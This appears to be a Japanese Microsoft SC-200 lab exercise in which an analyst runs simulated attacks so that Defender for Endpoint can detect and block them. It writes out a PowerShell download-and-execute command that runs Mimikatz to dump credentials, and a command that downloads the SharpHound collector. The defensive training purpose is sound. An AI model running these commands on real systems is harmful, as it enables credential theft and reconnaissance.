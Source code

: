 # モジュール 2 - ラボ 1 - 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減

## ラボ シナリオ

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2.png)

あなたは Microsoft Defender for Endpoint を実装している企業で働くセキュリティ オペレーション アナリストです。あなたの上司は、いくつかのデバイスをオンボードして、セキュリティ オペレーション (SecOps) チームの応答手順で必要な変更に関する情報を提供しようとしています。

Defender for Endpoint の攻撃緩和機能を確認するため、シミュレーション攻撃を 2 回行います。

>**ノート:** **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** このラボを自分のペースで確認できます。ホスト型のラボと多少の違いはありますが、主要な概念とアイデアは同じです。

### タスク 1: 攻撃シミレーション

このタスクでは、**WIN1** で **PowerShell** を使用して 2 つの **シミュレートされた** 攻撃を実行し、Microsoft Defender for Endpointの機能を調べます。
 
「攻撃 1: Mimikatz - 資格情報のダンプ」
 
1. *WIN1* マシンで、検索バーに **Command** と入力し、右クリックして**[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして、**管理者:コマンドプロンプト**ウィンドウに貼り付け、**Enter**を押して実行します。
 
    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```
 
1. *アクセスが拒否されました*というメッセージと、「Microsoft Defender ウイルス対策、Windows セキュリティ ウイルス、および脅威の防止」から *脅威が見つかりました*というポップアップ メッセージが表示されます。
 
1. **管理者:コマンドプロンプト**ウィンドウを終了するには、**exit** と入力して **Enter**を押します。
 
「攻撃 2:ブラッドハウンド - コレクション」
 
1. *WIN1* マシンで、検索バーに **PowerShell** と入力し、右クリックして**[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして **管理者: Windows PowerShell** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
    >**Note:** コマンドを 1 つずつコピー、貼り付け、実行することをお勧めします。*メモ帳*を開き、コマンドを一時ファイルにコピーして、これを実行できます。最初のコマンドは、*Atom Red Team* フォルダーがあるのと同じフォルダーに *ExternalPayloads* という名前のフォルダーを作成します。2 番目のコマンドは、*BloodHound* GitHub リポジトリから *SharpHound.ps1* ファイルをダウンロードし、*ExternalPayloads* フォルダーに保存します。
 
1. 「Windowsセキュリティウイルスと脅威の保護」から「脅威が見つかりました」というポップアップメッセージが表示されます。
 
1. 次のコマンドをコピーして **[管理者: Windows PowerShell]** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
1. 出力が *True* の場合、マルウェア ペイロード ファイルはMicrosoft Defender ウイルス対策によって削除されていません。出力が *False* の場合、マルウェア ペイロード ファイルはMicrosoft Defenderウイルス対策によって削除されています。上矢印キーを使用して、出力が *False* になるまでコマンドを繰り返します。

1. Microsoft Defender XDRポータルを開き、インシデントメニューにインシデントが生成されることを確認します。

1. インシデント名に表示されているアラートをクリックし、アラート、デバイス、ユーザー、調査、証拠と対応、グラフ タブの内容を確認します。

## これでラボは完了です。
